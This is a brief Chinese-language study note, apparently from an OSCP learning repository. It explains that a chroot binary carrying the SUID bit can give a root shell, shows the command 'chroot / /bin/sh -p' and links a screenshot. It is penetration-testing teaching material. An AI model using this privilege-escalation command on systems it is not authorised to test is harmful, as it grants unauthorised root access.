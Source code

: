 如果 chroot 具有 s 权限，可使用如下命令获取 root 权限：

```
chroot / /bin/sh -p
```
![chroot](https://github.com/Nongcloud/oscp-Learn/tree/master/Privilege-Escalation/SUID/images/suid-chroot.png)
